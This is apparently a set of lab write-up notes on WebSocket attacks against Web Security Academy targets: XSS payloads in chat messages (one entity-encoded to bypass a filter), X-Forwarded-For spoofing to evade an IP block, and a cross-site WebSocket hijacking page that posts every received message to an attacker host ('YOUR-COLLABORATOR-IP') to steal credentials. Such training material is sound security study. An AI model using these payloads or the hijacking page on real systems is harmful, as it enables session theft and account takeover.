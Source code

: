# Navigation
- [Manipulating WebSocket messages to exploit vulnerabilities](#manipulating-websocket-messages-to-exploit-vulnerabilities)
- [Manipulating the WebSocket handshake to exploit vulnerabilities](#manipulating-the-websocket-handshake-to-exploit-vulnerabilities)
- [Cross-site WebSocket hijacking](#cross-site-websocket-hijacking)
# Manipulating WebSocket messages to exploit vulnerabilities
1. Begin interacting with the web chat feature
2. Send the WebSocket interaction to repeater
3. Manipulate the `message` request to include a generic XSS payload
```JSON
{"message":"<img src=x onerror=alert(document.domain)>"}
```
# Manipulating the WebSocket handshake to exploit vulnerabilities
1. Begin interacting with the web chat feature
2. Sending generic XSS payload triggers a filter and blacklists us from connecting
3. When reconnecting, we get an error saying "IP is blacklisted"
4. Provide a fake `X-Forwarded-For` header in the WebSocket handshake request
```http
GET /chat HTTP/1.1
Host: 0a30001a045624a5829a38b60089005c.web-security-academy.net
Connection: Upgrade
X-Forwarded-For: 1
Upgrade: websocket
Origin: https://0a30001a045624a5829a38b60089005c.web-security-academy.net
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: R6QK0gp+xY0x5ZIRtCq7Bg==
...<SNIP>...
```
5. Through trial and error we finally get a payload working that will pop the `alert` function
```json
{"message":"<img src=x onerror = &#x61;&#x6c;&#x65;&#x72;&#x74;(document.domain)>"}
```
- This decodes to `<img src="x" onerror="alert(document.domain)">`
# Cross-site WebSocket hijacking
1. Live Chat
2. Send the WebSocket connection to the repeater tab
3. Create a new WebSocket connection
	1. Pencil > Clone active connection
	2. Change `Origin:` header to arbitrary domain (also note there are no CSRF protections on the handshake)
	3. Confirm new WebSocket has been opened with arbitrary domain (check Logger)
4. Host a malicious page to establish a WebSocket connection to the live chat feature and view it yourself
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script>
        var ws = new WebSocket('wss://<WEBSOCKET-URL>/chat');
        ws.onopen = function start(event) {
            ws.send("READY");
        }
        ws.onmessage = function handleReplay(event) {
            fetch('https://YOUR-COLLABORATOR-IP/', {
                mode: 'no-cors',
                method: "POST",
                body: (event.data)
            });
        }
        ws.send("Text has been sent to the server");
    </script>
</body>
</html>
```
5. View yourself with the network tab open and confirm that your messages have been sent to collaborator
6. Send exploit to victim > Steal creds > Login